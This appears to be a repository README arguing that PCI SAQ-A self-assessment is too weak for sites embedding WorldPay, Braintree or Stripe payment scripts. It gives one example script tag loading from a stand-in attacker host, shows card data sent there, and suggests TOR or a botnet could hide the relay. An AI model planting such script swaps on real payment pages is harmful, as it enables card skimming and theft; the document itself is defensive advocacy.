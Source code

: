 
# PCI Requirements

TLDR; The PCI Guidelines only require **SAQ-A** to be filled out when using an iframe to collect payment details, and this is not good enough from a security point of view.

---

When a website accepts payments, it must be PCI Compliant.

This is verified by completing a Self Assessment Questionnaire (SAQ).

There are few different SAQ's you can fill out (see [full listing](https://www.pcisecuritystandards.org/document_library?category=saqs), and the [instructions/guidelines](https://www.pcisecuritystandards.org/documents/SAQ_InstrGuidelines_v3-1.pdf)), but when it comes to websites, the assessment levels include:

1. [**SAQ-A**](https://www.pcisecuritystandards.org/documents/PCI_DSS_v3-1_SAQ_A_rev1-1.pdf): The website has fully outsourced the payment processing to a PCI compliant provider. At no point does the website have access to the payment details (i.e. no storage, processing, or transmission of payment details by the website).

2. [**SAQ-A-EP**](https://www.pcisecuritystandards.org/documents/PCI_DSS_v3-1_SAQ_A-EP_rev1-1.pdf): Same as SAQ-A, but the website can "deliver some elements of the payment page". In summary, this is for "websites that do not [sic] receive cardholder data but which does affect the security of the payment transaction and/or the integrity of the page that accepts the consumer's cardholder data".




3. [**SAQ-D**](https://www.pcisecuritystandards.org/documents/PCI_DSS_v3-1_SAQ_D_Merchant_rev1-1.pdf): For everything else (e.g. the payment details are processed, and maybe stored, by the website).

---

To get an idea of what these assessments require;

1. **SAQ-A**: Fill out a form confirming the website details, that they are allowed to do this quick/simple assessment, who they use for payment processing, and they have verified the provider is PCI compliant. Should take about an hour to complete.

2. **SAQ-A-EP**: Same as SAQ-A, but you also need to answer more questions about the server setup, and include an Approved Scanning Vendor (ASV) report every 3 months. Generally websites should be doing most of the requirements already, so filling out the SAQ form, and getting the ASV scan report, should only take a day or two.

3. **SAQ-D**: The full PCI compliance check, this is outside of the scope of this document, but it's basically a full time job.

As an aside, the additional **SAQ-A-EP** questions are technical, and include things like firewall configuration, server setup (open ports, accounts, installed software, permissions, etc), ensuring the use and correct setup of strong cryptography (e.g. HTTPS), documentation of system setup, coding practices that protect against SQLi/XSS/CSRF, etc... basically, all the good practices when running a website.

---

The problem is that several payment providers are providing iframe/JavaScript solutions, and insist that you only need to fill out **SAQ-A**:

* [WorldPay](https://online.worldpay.com/docs/template-form).
* [BrainTree](https://developers.braintreepayments.com/guides/drop-in/javascript/v2).
* [Stripe](https://stripe.com/docs/checkout/tutorial) ([SAQ note](https://support.stripe.com/questions/what-about-pci-dss-3-1)).

But how can this be the case?

In all 3 cases, the website is delivering the payment page from an **unchecked** server, and its delivering the `<script>` tag to create the payment form... even better, WorldPay don't insist on the page being delivered over a HTTP connection (something I checked 3 times).

---

Technical details time...

When a website implements one of these payment solutions that (in theory) only require **SAQ-A**, the website simply provides a line of code in the HTML such as:

	<script src="https://cdn.worldpay.com/v1/worldpay.js"></script>

	<script src="https://js.braintreegateway.com/js/braintree-2.21.0.min.js"></script>

	<script src="https://checkout.stripe.com/checkout.js" data-... ></script>

And it will produce a page that looks something like:

	![Checkout Screen Shot](./examples/payment-page/worldpay.png)

Now if someone malicious gets into the **unchecked** server (which is probably running un-patched software), and that JavaScript line was replaced with:

	<script src="https://evil.example.com/evil.js"></script>

That page will probably look something like (as in, exactly the same):

	![Checkout Screen Shot](./examples/payment-page/worldpay.png)

Where the form can now submit those details to `evil.example.com`, who in turn will forward the request onto the payment gateway in a classic Man-in-the-middle (MITM) attack (or just simply use a XMLHttpRequest to take a copy of the data).

Now there is a possible problem, in that the MITM might be detected by requests coming from the same IP address. But this can be easily mitigated by using TOR or a BotNet.

As an aside, at least 1 of the developers at WorldPay believes that a MITM cannot edit the Referrer header. I'm not sure why.

---

This is why I do not believe the simple **SAQ-A** is acceptable, and that **SAQ-A-EP** is required for this setup.

Simply because, the website "can impact the security of the payment transaction".

And we must ensure that "each element of the payment page(s) delivered to the consumer's browser originates from either the merchant's website or a PCI DSS compliant service provider(s)"

Any website that does not need to complete **SAQ-A-EP**, should instead send the customer to the payment provider, so the customer can clearly see the payment provider in the address bar, so that they know that the payment is between them and the payment provider, who will be fully PCI compliant (and they have completed **SAQ-D**).

